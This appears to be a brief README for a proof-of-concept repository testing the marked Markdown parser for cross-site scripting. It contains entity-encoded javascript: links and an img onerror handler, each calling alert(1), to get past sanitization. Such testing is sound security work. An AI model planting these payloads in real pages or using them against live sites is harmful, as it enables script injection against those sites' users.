 # marked-expoit
Find expoit in marked trough README.md

This is a [A funny link](javascript&#x58document;alert&#40;1&#41);

I can try to use some <a href="javascript&#x58document;alert&#40;1&#41">HTML IN HERE AS WELL</a>


<img onerror="&#x58document;alert&#40;1&#41" src="foo.gif" />

